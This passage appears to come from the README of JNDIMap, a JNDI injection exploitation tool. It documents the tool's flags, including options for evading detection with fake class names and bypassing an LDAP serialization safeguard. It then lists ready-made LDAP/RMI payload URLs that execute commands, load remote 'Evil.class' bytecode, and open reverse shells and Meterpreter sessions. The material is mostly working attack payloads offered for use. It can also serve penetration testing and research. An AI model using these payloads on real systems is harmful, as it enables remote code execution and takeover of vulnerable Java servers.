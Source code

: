 `-u`: specify the JNDI route, e.g. `/Basic/Command/open -a Calculator` (The JNDI URL is not completely controllable in some cases)

`-f`: path to the custom JS script, used to write custom JNDI payloads

`--use-reference-only`: only applicable to LDAP protocol, directly returns Reference object through LDAP related parameters, used to bypass `com.sun.jndi.ldap.object.trustSerialData`

`--confusing-class-name`: use random fake class names when generating malicious Java classes, which are highly similar to real projects

`-h`: show help message

`-V`: show version information

## URL Format

Please note that all the Base64 passed in is **Base64 URL encoded**, i.e. replace `+` and `/` with `-` and `_`

Most parameters support automatic Base64 URL decoding, that is, you can directly pass in plain text (command/IP/port/URL) or Base64 URL encoded content (some routes only accept Base64 URL encoded parameters, which will be specially noted below)

The following routes support RMI, LDAP and LDAPS protocols except `/Deserialize/*` (LDAP deserialization)

For the RMI protocol, simply replace `ldap://127.0.0.1:1389/` with `rmi://127.0.0.1:1099/` in the payload url

For the LDAPS protocol, simply replace `ldap://127.0.0.1:1389/` with `ldaps://127.0.0.1:1636/` in the payload url

## Basic Functions

Directly load remote Java bytecode via JNDI Reference class 

The Java version must be less than 8u121 (RMI protocol) or 8u191 (LDAP protocol)

```bash
# DNS request
ldap://127.0.0.1:1389/Basic/DNSLog/xxx.dnslog.cn
ldap://127.0.0.1:1389/Basic/DNSLog/eHh4LmRuc2xvZy5jbg==

# execute command
ldap://127.0.0.1:1389/Basic/Command/open -a Calculator
ldap://127.0.0.1:1389/Basic/Command/b3BlbiAtYSBDYWxjdWxhdG9y

# load custom Java bytecode

# load via URL parameters
ldap://127.0.0.1:1389/Basic/FromUrl/<base64-url-encoded-java-bytecode>
# load from the server running JNDIMap
ldap://127.0.0.1:1389/Basic/FromFile/Evil.class # the path is relative to the current directory
ldap://127.0.0.1:1389/Basic/FromFile/<base64-url-encoded-path-to-evil-class-file>

# spawn reverse shell (supports Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Basic/ReverseShell/MTI3LjAuMC4x/NDQ0NA==

# spawn Meterpreter (java/meterpreter/reverse_tcp)
ldap://127.0.0.1:1389/Basic/Meterpreter/127.0.0.1/4444
ldap://127.0.0.1:1389/Basic/Meterpreter/MTI3LjAuMC4x/NDQ0NA==
```

